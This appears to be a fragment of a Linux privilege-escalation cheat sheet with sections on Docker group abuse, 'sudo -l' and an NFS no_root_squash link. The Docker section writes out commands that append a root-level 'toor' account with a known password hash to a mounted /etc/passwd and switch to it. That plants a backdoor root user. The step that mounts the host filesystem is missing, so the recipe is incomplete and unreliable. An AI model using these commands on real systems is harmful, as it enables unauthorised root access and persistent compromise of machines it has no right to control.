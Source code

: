 ### Docker
How to spot
```
lse check user in docker group
```
Exploit
```
docker images
cd /
echo 'toor:$1$.ZcF5ts0$i4k6rQYzeegUkacRCvfxC0:0:0:root:/root:/bin/sh' >> /mnt/etc/passwd
su toor
password
```

### Check sudo
```
sudo -l
```

### no-root-squash nfs
https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe
